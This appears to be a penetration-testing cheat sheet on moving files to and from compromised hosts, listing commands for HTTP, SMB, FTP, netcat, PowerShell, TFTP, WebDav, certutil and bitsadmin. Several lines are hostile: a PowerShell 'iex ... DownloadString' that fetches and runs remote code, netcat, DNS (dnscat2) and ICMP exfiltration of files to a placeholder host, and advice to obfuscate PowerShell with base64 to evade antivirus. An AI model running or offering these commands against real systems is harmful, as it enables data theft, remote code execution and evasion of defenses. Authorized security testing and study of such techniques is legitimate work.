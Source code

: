 # 1. HTTP/HTTPS

```bash
# Python HTTP Server:
python3 -m http.server 80 # Python 3
python -m SimpleHTTPServer 80 # Python 2
```

```bash
# Download with wget/curl:
wget http://<IP>/file
curl -O http://<IP>/file
```

```bash
# PHP Server:
php -S 0.0.0.0:80
```

# 2. SMB (Windows)

```bash
# Impacket SMB Server:
impacket-smbserver share $(pwd) -smb2support -username user -password pass
```

```bash
# Connect from Windows:
net use \\\\<IP>\\share /user:user pass
copy \\\\<IP>\\share\\file .
```

# 3. FTP

```bash
# Python FTP Server:
pip3 install pyftpdlib
python3 -m pyftpdlib -p 21 -w
```

```bash
# Connect with ftp:
ftp <IP>
get file
```

# 4. SCP (SSH)

```bash
# Upload/Download:
scp file.txt user@<IP>:/path # Upload
scp user@<IP>:/path/file.txt . # Download
```

# 5. Netcat (Unencrypted)

```bash
# Receiver (Listener):
nc -lvnp 4444 > file
```

```bash
# Sender:
nc <IP> 4444 < file
```

# 6. PowerShell (Windows)

```bash
# Download File:
Invoke-WebRequest -Uri http://<IP>/file -OutFile file

(New-Object Net.WebClient).DownloadFile("http://<IP>/file", "file")

# Base64 Encode/Decode:
[Convert]::ToBase64String([IO.File]::ReadAllBytes("file")) > file.b64
[IO.File]::WriteAllBytes("file", [Convert]::FromBase64String((Get-Content file.b64)))

# Basic download string
iex (New-Object Net.Webclient).DownloadString("http://<IP>/<File>")
```

# 7. TFTP (UDP)

```bash
# Start TFTP Server:
atftpd --daemon --port 69 /tftp
```

```bash
# Download File:
tftp -i <IP> GET file
```

# 8. WebDav (HTTP)

```bash
# Python WebDav Server:
wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

```bash
# Mount in Windows:
net use * http://<IP>/webdav
```

# 9. DNS Exfiltration (Slow)

```bash
# Using dnscat2:
dnscat2 --dns server=<IP>,[domain=example.com](<http://domain=example.com/>)
```

# 10. Magic Windows Tricks

```bash
# Certutil:
certutil -urlcache -split -f http://<IP>/file
```

```bash
# Bitsadmin:
bitsadmin /transfer job /download /priority normal http://<IP>/file C:\\file
```

# 11. RDP Clipboard

```bash
Copy-paste files via RDP (enable clipboard sharing).
```

# 12. ICMP (Ping) Exfil

```bash
# icmp-exfil (Tool):
icmp-exfil -s <IP> -f file
```

# Notes:

- Encryption: Prefer SCP/HTTPS/SMB3 over unencrypted methods (FTP, HTTP, TFTP).
- Firewalls: Check allowed ports (80, 443, 445, 21, 22 are common).
- AV Evasion: Obfuscate scripts (e.g., base64-encoded PowerShell).

Source: [https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)


# Resources
[Penetration Testing Methodology](../0%20-%20MOCs/Penetration%20Testing%20Methodology.md)